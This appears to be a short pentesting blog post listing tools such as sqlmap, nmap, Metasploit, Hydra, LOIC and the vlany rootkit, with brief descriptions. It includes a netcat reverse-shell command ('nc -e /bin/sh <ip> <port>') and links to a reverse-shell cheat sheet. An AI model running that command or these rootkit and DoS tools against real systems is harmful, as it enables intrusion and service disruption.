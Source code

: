 ```yaml
---
title: Hacker's Toolbox
excerpt: >-
  This article will contain various cool tools I've encountered during my research.
categories:
  - Penetration-Testing
tags:
  - pentest
  - tools
---
```

Name                      | description
--------------------------|------------------------------------------------
vlany                     | a Linux rootkit
sqlmap                    | automated SQL injection
nmap                      | network scanner
openvas                   | vulnrability scanner
burpsuite                 | intercepting proxy, with a lot of nice features
John the ripper           | password decryption
LOIC                      | DOS tool (for windows)
slowhttptest              | DOS tool for linux (tested on kali)
metasploit                | malware generator and much more
etherape                  | GUI showing eth interface traffic
Hydra                     | Password bruteforcing
Driftnet                  | captures images sent on wire (non https)
urlsnarf                  | captures HTTP requests
nc -e /bin/sh <ip> <port> | sends a shell to the ip
nikto                     | web vulnrability checker
dirb                      | web brute forcer
crunch                    |  wordlist generator






useful links:
[reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
